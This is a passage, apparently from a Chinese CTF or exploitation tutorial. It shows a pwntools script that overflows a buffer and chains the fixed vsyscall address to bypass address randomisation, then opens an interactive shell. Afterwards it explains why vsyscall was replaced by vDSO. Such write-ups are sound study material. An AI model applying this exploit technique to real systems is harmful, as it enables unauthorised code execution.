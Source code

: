 ``` python

    p.recvuntil("Choice:")
    p.send('2')
    p.recvuntil("Choice:")
    p.send('1')
    p.recvuntil("levels?")
    p.send('-1')
    p.recvuntil("more?")
    p.send(str(offset))

    for i in range(999):    # 1000次，最后一次答题留作溢出构造
        log.info(" %dth level"%i)
        answer()
    print p.recv()
    p.send('A'*0x38 + p64(0xffffffffff600000)*3)
    p.interactive()
```

![Alt](img/bypass13.png)

由于vsyscall地址的固定性，这个本来是为了节省开销的设置造成了很大的隐患，因此vsyscall很快就被新的机制vdso所取代。与vsyscall不同的是，vdso的地址也是随机化的，且其中的指令可以任意执行，不需要从入口开始。
